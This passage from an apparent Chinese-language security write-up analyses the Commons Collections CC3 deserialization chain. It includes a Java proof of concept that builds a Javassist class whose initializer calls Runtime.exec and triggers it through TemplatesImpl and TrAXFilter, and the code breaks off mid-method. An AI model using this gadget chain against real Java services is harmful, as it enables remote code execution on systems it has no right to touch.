 先看一下 `InstantiateTransformer#transform`，就是通过反射调用构造函数来实例化对象

![](Commons-Collections-反序列化利用链分析/image-20210213020034643.png)

CC2 里面我们改变了命令执行的方式为 `TemplatesImpl#newTransformer` 来调用。CC2里触发 `TemplatesImpl#newTransformer`  是靠的 `InvoerTransformer#transform`，且 `transform` 参数可控

CC3 用到了 `TrAXFilter` 这个类，其构造方法会调用 `templates.newTransformer()`，且 `templates` 可控

![](Commons-Collections-反序列化利用链分析/image-20210213143732101.png)

回顾我们上面讲的 `InstantiateTransformer#transform`，那么可以实现命令执行

```java
public class Demo {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("TestDemo");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"/Applications/Calculator.app/Contents/MacOS/Calculator\");";
        cc.makeClassInitializer().insertBefore(cmd);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", targetByteCodes);
        setFieldValue(templates, "_name", "TestDemo");
        setFieldValue(templates, "_class", null);
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        ChainedTransformer chain = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
        });
        chain.transform("random");
```